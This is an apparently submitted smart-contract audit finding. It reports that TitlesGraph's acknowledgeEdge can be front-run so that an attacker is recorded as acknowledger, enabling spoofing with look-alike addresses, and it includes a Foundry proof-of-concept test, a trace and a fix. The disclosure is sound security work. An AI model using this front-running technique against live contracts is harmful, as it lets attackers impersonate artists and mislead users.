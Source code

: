Daring Carob Gorilla

medium

# Anyone can grieve acknowledgements

## Summary
Front-running and copying an acknowledgement can lead to spoofing.
## Vulnerability Detail
A person can call `acknowledgeEdge` to acknowledge an edge:
```javascript
    function acknowledgeEdge(bytes32 edgeId_, bytes calldata data_, bytes calldata signature_)
        external
        checkSignature(edgeId_, data_, signature_)
        returns (Edge memory edge)
    {
        return _setAcknowledged(edgeId_, data_, true);
    }
```
There are two variants, one without ECDSA signature and one with ECDSA signature.

The problem is that a malicious user can front-run any `acknowledgement` made, spoofing himself as the person that made the acknowledgement. Spoofing the address has been confirmed as a potential issue by the sponsor.
## Proof of Concept
Put this in `TitleGraph.t.sol`:
```javascript
        function test_poc_ack() public {
        Mock1271Signer signer = new Mock1271Signer();
        bytes memory jtmb = signer.JTMB();
        address malicious_user = makeAddr("malicious_user");

        Edge memory edge = Edge({
            from: Node({
                nodeType: NodeType.COLLECTION_ERC1155,
                entity: Target({target: address(this), chainId: block.chainid}),
                creator: Target({target: address(2), chainId: block.chainid}),
                data: ""
            }),
            to: Node({
                nodeType: NodeType.TOKEN_ERC1155,
                entity: Target({target: address(3), chainId: block.chainid}),
                creator: Target({target: address(signer), chainId: block.chainid}),
                data: abi.encode(42)
            }),
            acknowledged: true,
            data: ""
        });

        // Create the edge
        titlesGraph.createEdge(edge.from, edge.to, "");
        bytes32 edgeId = titlesGraph.getEdgeId(edge);

        // This is a valid sig - this gets front-ran by a malicious user
        // titlesGraph.acknowledgeEdge(edgeId, new bytes(0), jtmb);
        // This call succeed.
        vm.prank(malicious_user);
        titlesGraph.acknowledgeEdge(edgeId, new bytes(0), jtmb);

        // If the original signer wants to sign again it will revert.
        vm.expectRevert(Unauthorized.selector);
        titlesGraph.acknowledgeEdge(edgeId, new bytes(0), jtmb);
    }
```

If we look at the traces we will see that the `malicious_user` will be the address that acknowledged the edge:
```javascript
    │   ├─ emit EdgeAcknowledged(edge: Edge({ from: Node({ nodeType: 2, entity: Target({ chainId: 31337 [3.133e4], target: 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496 }), creator: Target({ chainId: 31337 [3.133e4], target: 0x0000000000000000000000000000000000000002 }), data: 0x }), to: Node({ nodeType: 4, entity: Target({ chainId: 31337 [3.133e4], target: 0x0000000000000000000000000000000000000003 }), creator: Target({ chainId: 31337 [3.133e4], target: 0x2e234DAe75C793f67A35089C9d99245E1C58470b }), data: 0x000000000000000000000000000000000000000000000000000000000000002a }), acknowledged: true, data: 0x }), acknowledger: malicious_user: [0xe64a85D490F61675575C3070eD653b2f413e3903], data: 0x)
```
This is especially problematic with the issue of [address poisoning](https://transak.com/blog/what-are-address-poisoning-attacks). 
## Impact
A malicious user can craft an address that looks very similar to a big AI artist and spoof an acknowledgement coming from them.
## Code Snippet
[TitlesGraph.sol#L118-L124](https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/graph/TitlesGraph.sol#L118-L124)
## Tool used
Manual Review
## Recommendation
Do not emit `msg.sender` as the `acknowledger`.